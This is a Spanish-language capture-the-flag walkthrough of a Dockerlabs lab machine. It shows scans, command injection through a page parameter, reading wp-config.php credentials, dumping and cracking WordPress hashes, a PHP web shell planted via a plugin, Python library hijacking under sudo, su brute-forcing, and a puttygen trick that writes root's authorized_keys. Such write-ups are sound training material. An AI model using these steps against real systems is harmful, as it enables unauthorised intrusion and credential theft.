

## Maquina CorrupTess de [Dockerlabs](https://dockerlabs.es)

Autor:yo(maciiii___)

Dificultad: Difícil


# INTRUSIÓN

Comenzamos haciendo un escaneo de nmap

```apl
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2
```

```ruby
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-09 17:32 -03
Initiating ARP Ping Scan at 17:32
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 17:32, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:32
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 17:32, 1.59s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000011s latency).
Scanned at 2024-08-09 17:32:07 -03 for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.80 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

Vemos el puerto 80 y 22 abiertos, por lo que continuaremos entrando por el navegador. Como vemos que tiene un dominio, modificamos el archivo `/etc/hosts` y hacemos que la ip apunte al dominio `paginadelgobiernoreal.gob`. Ahora si intentamos entrar nuevamente desde el navegador vemos que carga la página predeterminada de apache debian, por lo que procederemos a hacer un poco de fuzzing con gobuster, pero como no nos encuentra nada podemos revisar el codigo fuente para ver si hay alguna pista.


Como vemos, nombra una tal "futurepage.html", pero normalmente en la pagina predeterminada de apache llega solo a html, por lo que podriamos intentar entrar desde el navegador. Al entrar vemos que es nuevamente la página de apache por lo que podriamos revisar nuevamente el código fuente para ver si nuevamente hay algo. Al revisarlo encontramos una pista y 3 cosas raras:


En la primer imagen se ven 3 cosas raras que son "MYSQL", "PAGE" y "FILE". Como no sabemos todavia que es nos lo guardamos en unas notas o en algún lado a mano para verlo mas tarde.

En la segunda imagen podemos ver otra pista que podemos tratar de entrar desde el navegador.

Al entrar a esa pagina podemos ver una especie de pagina del gobierno que habla de un censo, al revisar el codigo fuente podemos ver que nombra que el nombre "Ariel" es importante.

Continuamos haciendo fuzzing para ver si vemos algo más:

```ruby
gobuster dir -u http://paginadelgobiernoreal.gob/WebTestprogress -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://paginadelgobiernoreal.gob/WebTestprogress
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 290]
/.php                 (Status: 403) [Size: 290]
/index.html           (Status: 200) [Size: 5514]
/page.php             (Status: 200) [Size: 5514]
Progress: 31893 / 882244 (3.61%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 32612 / 882244 (3.70%)
===============================================================
Finished
===============================================================
                                                             
```

Al parecer hay un "page.php", por lo que continuaremos entrando desde el navegador para ver que hay. Al parecer es la misma página pero como a php se le pueden poner parámetro con `?$PARAMETRO` podemos intentar ver si hay alguno.

Luego de ejecutar un parametro conocido como "cmd" vemos que nos dice lo siguiente:


Como vemos parece que hay comandos permitidos y otros que no. Al probar `ls -la ./`("./ " para evitarnos problemas de permisos ya que vemos que hay comandos que no están permitidos) nos muestra los archivos del directorio:


Ahora sabiendo esto entramos al directorio  `developerPagee` y al parecer es un sitio de wordpress. Vamos al "wp-admin.php" y intentamos iniciar sesión con credenciales tipicas como:

​	.Admin:Admin

​	.root:root

Pero como ninguna funciona tendremos que seguir investigando el "page.php".

Si recordamos el codigo fuente de "futurepage.php" habían 3 palabras raras que eran "MYSQL", "PAGE" y "FILE". Luego de probar cada uno vemos que "mysql" y "file" funcionan, pero "file" deja en blanco y "mysql" nos dice:

"Comando MySQL no permitido o credenciales incorrectas."

Sabiendo esto y que hay un wordpress, podriamos intentar leer el archivo "wp-config.php" usando el parametro file, ya que wordpress para su instalación requiere un perfil en mysql o mariadb con contraseña y se guarda en ese archivo.

Al poner de parametro `?file=./developerPage/wp-config.php` y presionar `ctrl+u`; podemos ver que wordpress utiliza la base de datos llamada "wordpress" con usuario y contraseña "wp_user:321123". Por lo que ya tenemos las credenciales para el parametro "mysql".

Si leemos lo que nos decia el parametro "mysql", era que el comando mysql no estaba permitido, lo que significa que podemos ejecutar comandos de mysql. Como nosotros tenemos el usuario y contraseña de wordpress, podriamos tratar de usarlos para ver el usuario y contraseña de wordpress, con el siguiente comando:

```ruby
mysql -u wp_user -p321123 -e "SELECT user_login%2c user_pass FROM wordpress.wp_users%3b"
```

Por lo que finalmente hemos conseguido el usuario "Ariel" y su contraseña hasheada. Ahora podemos intentar deshashear la contraseña usando la herramienta "john the ripper" simplemente tenemos que copiar y meter el hash en un archivo llamado hash.txt y ejecutar el siguiente comando:

```ruby
john --wordlist=/path/to/wordlist.txt --format=phpass hash.txt
```

En este caso, podriamos usar de wordlist la supuesta "advertencia" que habia en "/WebTestprogress/.advertencia".

Al usar la wordlist con john nos devuelve lo siguiente:

```ruby
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
NoTeMetasConElGobierno (?)     
1g 0:00:00:00 DONE (2024-08-09 18:32) 16.66g/s 5266p/s 5266c/s 5266C/s NoTeMetasConElG*ConElGobierno..NoTeMeta@ierno
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```

Por lo que finalmente sabemos que la contraseña del wordpress es "NoTeMetasConElGobierno" con usuario "Ariel"

Ya estando en wordpress, vamos a la seccion "añadir plguins", agregamos y activamos el plugin "File Manager". Ahora vamos a la nueva sección del plugin y creamos un  ".php" con una reverse shell o que nos permita ejecutar comandos, en mi caso usé el siguiente:

```php
<?php
      system($_GET['cmd']);
?>
```

Ahora solo creamos un archivo en wp-content con nuestra reverse shell(o que nos permita ejecutar comandos) y listo, escuchamos con netcat usando `nc -nlvp 443` y finalmente estamos dentro.

# TRATAMIENTO DE LA TTY

Para hacer el tratamiento de la tty hay que ejecutar los siguientes comandos:

```css
script /dev/null -c bash
(presionamos ctrl+z)
stty raw -echo; fg
	reset xterm
export TERM=xterm && export SHELL=bash
```

# ESCALADA DE PRIVILEGIOS

## www-data

Al ejecutar sudo -l vemos que podemos ejecutar un script de python como el usuario "ministroariel". Si revisamos el codigo, importa la biblioteca random, por lo que podriamos crear en la misma carpeta un archivo llamado random.py con lo siguiente:

```python
import os
os.system("/bin/bash")
```

lo que hará que cuando el script intente usar la biblioteca, primero usará nuestro "random.py" permitiendo que nos de una shell como "ministroariel"

## ministroariel

Siendo este usuario podriamos intentar ejecutar nuevamente `sudo -l`, pero nos pide contraseña. Al hacer un `ls -la` vemos un archivo llamado ".secreto" el cual parece ser una wordlist. Ahora usaremos el script [Linux-Su-Force](https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh) con los usuarios "vicepresidente" y "presidente".

Luego de esperar un gran rato nos encuentra lo siguiente:


por lo que ponemos `su vicepresidente` y ponemos la contraseña.

## vicepresidente

Siendo el usuario "vicepresidente" ejecutamos `sudo -l` y vemos que podemos ejecutar con python3 un script en `/var/backups/script.py` , lo ejecutamos con  `sudo -u  presidente /usr/bin/python3 /var/backups/script.py`  y logramos pasar al usuario presidente

## presidente

Siendo el usuario "presidente" vemos que podemos ejecutar el binario "puttygen" como root. Sabiendo esto haremos lo siguiente:
Primero ejecutamos el siguiente comando

```css
puttygen -t rsa -o id_rsa -O private-openssh
```

esto nos generara una llave para el ssh la cual podremos usar.

La guardamos en `/root/.ssh/authorized_keys`

```css
sudo -u root /usr/bin/puttygen id_rsa -o /root/.ssh/authorized_keys -O public-openssh
```

Le damos permiso de ejecución con `chmod 600 id_rsa` y finalmente la usamos con `ssh -i id_rsa root@localhost` y listo, somos root




Por si te interesa:

[INSTAGRAM](https://instagram.com/macim0_)
